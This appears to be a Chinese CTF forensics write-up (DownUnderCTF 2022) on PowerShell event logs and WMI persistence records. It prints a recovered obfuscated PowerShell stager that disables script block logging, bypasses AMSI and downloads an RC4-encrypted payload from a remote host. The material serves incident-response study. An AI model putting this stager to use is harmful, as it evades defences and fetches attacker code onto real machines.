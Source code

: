 ### DownUnderCTF 2022 DFIR Investigation powershell取证部分

4104是远程命令执行的事件ID，字段是ScriptBlockText，在Microsoft-Windows-PowerShell%4Operational.evtx中

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-0d45250280acc3d42033262f0221b7a56304cc95.png)

也可以用Microsoft Message Analyzer

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-e3dbf36f5c2f4dfa6ec51a9ac880864d2bf801d4.png)

```powershell
If($PSVERSiOnTAblE.PSVerSIOn.MajOr -gE 3){$f0C32=[ref].ASseMBLy.GEtTyPE('System.Management.Automation.Utils')."GETFiE`LD"('cachedGroupPolicySettings','N'+'onPublic,Static');If($f0C32){$eA761=$f0c32.GetVaLuE($NULL);IF($Ea761['ScriptB'+'lockLogging']){$Ea761['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$eA761['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECtiONs.GeNEric.DIctioNAry[strIng,SystEm.ObJEct]]::neW();$vAL.ADd('EnableScriptB'+'lockLogging',0);$VaL.AdD('EnableScriptBlockInvocationLogging',0);$eA761['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$Val}ELsE{[SCriPTBlOCK]."GETFIe`LD"('signatures','N'+'onPublic,Static').SeTVAlUE($NULl,(New-ObjECT COllECtIONs.GeneRiC.HAshSet[StRiNG]))}$Ref=[ReF].ASsEmbLY.GetTyPE('System.Management.Automation.Amsi'+'Utils');$ReF.GEtFIelD('amsiInitF'+'ailed','NonPublic,Static').SETVALUe($nULL,$TRUe);};[SYStEm.Net.ServiCePOintMaNagER]::ExpECt100ConTinuE=0;$B3904=New-OBjECT SYsTEM.Net.WEbClIent;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TexT.EncODinG]::UNICOdE.GETStRiNg([CONvErt]::FrOMBaSe64StRING('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMAAuADIANwA6ADcANwA3ADcA')));$t='/news.php';$B3904.HEadErS.AdD('User-Agent',$u);$b3904.PROXY=[SYSTeM.NEt.WebREQuESt]::DefaUlTWebPrOxY;$B3904.Proxy.CredeNTIalS = [SySTeM.NEt.CREdEntIaLCAChe]::DEFAuLtNETworKCreDEntIals;$Script:Proxy = $b3904.Proxy;$K=[SysteM.Text.ENCoDInG]::ASCII.GEtBYtes('/Y0dzf;_)NkL^~M#K(xG]*rOFe,C}2%R');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H])%256]}};$B3904.HeaderS.ADD("Cookie","lvzoFoofzAIvDVtv=R7eEC+1KSXf3X+sUQhz2DF+NSjQ=");$DATa=$b3904.DOWnLOAdDATA($SEr+$T);$iv=$Data
```

命令中有一段base64解一下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-2061a3a66bf12b5f67d6aa8c7ba330252abda6ac.png)

WMI日志
-----

`C:\Windows\System32\wbem\Repository\`目录下的OBJECTS.DATA，是 WMI 存储库，记录持久化 WMI 对象

可以直接打开，也可以用PyWMIPersistenceFinder

### WMI 事件类型

- 内部事件（Intrinsic）

> **NamespaceOperationEvent** ClassCreationEvent
> 
> **NamespaceModificationEvent** InstanceOperationEvent
> 
> **NamespaceDeletionEvent** InstanceCreationEvent
> 
> **NamespaceCreationEvent** MethodInvocationEvent
> 
> **ClassOperationEvent** InstanceModificationEvent
> 
> **ClassDeletionEvent** InstanceDeletionEvent
> 
> **ClassModificationEvent** TimerEvent
> 
> **ConsumerFailureEvent** EventDroppedEvent
> 
> **EventQueueOverflowEvent** MethodInvocationEvent
